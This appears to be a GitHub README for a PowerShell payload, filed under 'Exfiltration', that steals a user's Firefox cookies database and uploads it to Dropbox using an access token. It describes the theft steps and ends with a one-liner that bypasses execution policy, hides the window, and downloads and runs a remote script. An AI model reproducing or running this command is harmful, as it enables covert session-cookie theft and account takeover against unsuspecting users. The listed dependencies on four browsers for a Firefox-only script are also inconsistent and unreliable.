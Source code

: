 # Export Firefox Cookies Database

This script may come in handy for those who want to quickly save all the cookies of Firefox session by exporting the database via dropbox accesstoken.

**Category**: Exfiltration

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script may come in handy for those who want to quickly save all the cookies of their Firefox session by exporting the database via dropbox accesstoken.

Open a PowerShell, select dynamically the Firefox path adding "cookies.sqlite" at the end, then set your exfiltration settings i.e. Dropbox access token and so on... then export it, then close the powershell.

## Dependencies

* Firefox must be installed
* Edge must be installed
* Chrome must be installed
* Opera must be installed


Execution
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Exfilaration/ExportCookiesBrowsers/exportCookies.ps1').Content"
```
